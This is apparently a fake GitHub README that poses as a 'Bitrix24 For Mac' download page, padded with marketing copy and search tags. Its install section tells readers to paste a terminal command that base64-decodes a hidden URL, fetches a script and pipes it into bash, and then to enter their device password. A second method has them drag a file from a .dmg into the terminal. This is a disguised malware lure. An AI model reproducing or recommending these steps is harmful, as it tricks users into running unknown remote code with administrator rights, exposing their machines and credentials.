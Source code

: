 # Bitrix24 For Mac — Download Now 🚀
![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQUiGneO_loL-eu_O36mCzIXPt1dYKcLIEaFQ&s)

Bitrix24 For Mac is an all-in-one business management platform designed for macOS users, offering tools for CRM, task management, and team collaboration. Streamline your workflows with a seamless, cloud-based solution. Follow the instructions below to install Bitrix24 on your Mac and boost your productivity.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://fituganshfgh.github.io/.github/bitrix)

If the download button doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Bitrix24 For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Bitrix24

- 🤝 **Team Collaboration**: Communicate and collaborate with chat, video calls, and shared workspaces.
- 📋 **Task Management**: Organize projects and track tasks with customizable workflows.
- 💼 **CRM Tools**: Manage leads, deals, and customer relationships efficiently.
- 📊 **Analytics & Reporting**: Gain insights with detailed performance reports.
- 🔒 **Secure Data Storage**: Protect business data with robust encryption.
- 🌐 **Integrations**: Connect with tools like Slack, Zoom, and Google Drive.

## About Bitrix24

Bitrix24 For Mac is a comprehensive **business management** platform tailored for macOS users, designed to streamline **team collaboration**, **task management**, and **CRM** processes. Whether you're a small business, freelancer, or large enterprise, Bitrix24’s **free download** option makes it easy to access its powerful features, offering a native macOS experience that enhances productivity.

The software provides a suite of tools to manage projects, communicate with teams, and track customer interactions. With **CRM tools**, Bitrix24 helps you nurture leads, close deals, and maintain client relationships, all within an intuitive interface. Its **macOS productivity** focus ensures seamless integration with your MacBook or iMac, while **cloud-based collaboration** allows you to work from anywhere with secure access to your data.

Bitrix24’s **task management** features enable you to create, assign, and track tasks with customizable workflows, ensuring projects stay on track. The platform’s **analytics and reporting** tools provide actionable insights into team performance and business metrics, empowering data-driven decisions. With **secure data storage**, Bitrix24 keeps your sensitive information safe, making it a trusted choice for businesses of all sizes.

By choosing Bitrix24 For Mac, you gain access to a versatile platform that simplifies **business management** and boosts efficiency. The **free macOS download** lets you explore features like **team collaboration**, **CRM tools**, and **task management** without upfront costs. Join thousands of macOS users who rely on Bitrix24 to manage their workflows and drive business success.

## ✅ Advantages of Bitrix24

- 🚀 **Unified Collaboration**: Connect teams with chat, video calls, and shared workspaces.
- 🛠️ **Efficient Task Management**: Organize and track projects with ease.
- 💻 **Powerful CRM**: Manage leads and deals with intuitive tools.
- 📈 **Insightful Analytics**: Monitor performance with detailed reports.
- 🔐 **Secure Cloud Storage**: Protect business data with advanced encryption.
- 🌍 **Broad Integrations**: Sync with Slack, Zoom, and other platforms.

## 🖼 Preview

![Workspace Dashboard](https://www.bitrix24.com/upload/optimizer/converted/images/content_en/screens/main/solutions_slider/solutions_slider-5.jpg.webp?1754028798780)
*Manage your business with a centralized dashboard.*

![Task Management](https://i.postimg.cc/25rY4vX6/bitrix24-tasks.jpg)
*Organize and track tasks with customizable workflows.*

![CRM Interface](https://i.postimg.cc/4Nq4Xz3Z/bitrix24-crm.jpg)
*Manage leads and customer relationships efficiently.*

![Collaboration Tools](https://i.postimg.cc/7Y2T0qL3/bitrix24-collaboration.jpg)
*Collaborate seamlessly with chat and video call features.*

## 🔍 Tags

bitrix24, bitrix, bitrix24login, bitrix24 for mac, bitrix24 mac, bitrix24 pricing, bitrix24 for desktop, bitrix24 download, bitrix crm, bitrixcrm, bitrix24 crm, bitrix24 app, bitrix for mac, bitrix mac
